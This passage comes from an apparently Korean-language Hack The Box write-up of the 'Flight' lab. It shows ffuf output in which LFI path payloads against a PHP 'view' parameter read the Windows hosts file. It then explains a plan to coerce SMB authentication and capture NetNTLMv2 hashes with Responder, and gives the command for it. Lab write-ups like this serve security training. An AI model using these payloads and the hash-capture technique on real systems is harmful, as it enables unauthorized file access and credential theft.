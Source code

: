```zsh
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/LFI/LFI-Windows-adeadfed.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 1170
________________________________________________

//./C:/Windows/system32/drivers/etc/hosts. [Status: 200, Size: 1926, Words: 315, Lines: 52, Duration: 208ms]
//./C:/Windows/system32/drivers/etc/hosts [Status: 200, Size: 1926, Words: 315, Lines: 52, Duration: 209ms]
//127.0.0.1/C$/Windows/system32/drivers/etc/hosts [Status: 200, Size: 1926, Words: 315, Lines: 52, Duration: 220ms]
//?/C:/Windows/system32/drivers/etc/hosts [Status: 200, Size: 1102, Words: 144, Lines: 31, Duration: 220ms]
//localhost/C$/Windows/system32/drivers/etc/hosts [Status: 200, Size: 1926, Words: 315, Lines: 52, Duration: 220ms]
//localhost/C$/Windows/system32/drivers/etc/hosts. [Status: 200, Size: 1926, Words: 315, Lines: 52, Duration: 220ms]
//127.0.0.1/C$/Windows/system32/drivers/etc/hosts. [Status: 200, Size: 1926, Words: 315, Lines: 52, Duration: 209ms]
//::1/C$/Windows/system32/drivers/etc/hosts [Status: 200, Size: 1926, Words: 315, Lines: 52, Duration: 211ms]
//::1/C$/Windows/system32/drivers/etc/hosts. [Status: 200, Size: 1926, Words: 315, Lines: 52, Duration: 212ms]
C:/Windows/system32/drivers/etc/hosts [Status: 200, Size: 1926, Words: 315, Lines: 52, Duration: 204ms]
C:/Windows/system32/drivers/etc/hosts. [Status: 200, Size: 1926, Words: 315, Lines: 52, Duration: 204ms]
:: Progress: [215/215] :: Job [1/1] :: 191 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

- 대상 호스트의 80번 포트에서는 웹 서비스가 운영중이었으며, 숨겨진 서브도메인(school.flight.htb)이 존재했다. 이 서브도메인에는 `index.php` 파일이 존재하였는데, 이 소스파일의 `view` 파라미터는 LFI 공격에 취약했다. 이를 통해 공격자는 대상 호스트에 임의의 값을 입력하여 호스트 내 중요 파일에 접근 가능했다.  
- 특정 경로의 파일에 접근하는 것은 가능했으나, RCE가 가능한 포인트는 발견되지 않아 직접적인 리버스 쉘 연결은 불가능했다. 이러한 경우에 리스폰더(Responder)를 이용하여 대상 호스트의 NetNTLMv2 해시를 탈취하여 크래킹을 시도해 볼 수 있다. (RCE는 불가하지만, 특정 경로로의 접근은 시도해볼 수 있으므로 공격자의 SMB 서버로 접근하여 NetNTLMv2 해시값을 획득할 수 있다.)


## Responder - Gain NetNTLMv2 Hash of target host's account

- 공격자 호스트 측에서 NetNTLMv2 해시를 얻기 위한 서버를 개방한다. (responder)

```zsh
└─# responder -I tun0 
```

<img src='assets/post/2025/Playground/Hack The Box/Flight/2.png' width=1200 alt=''>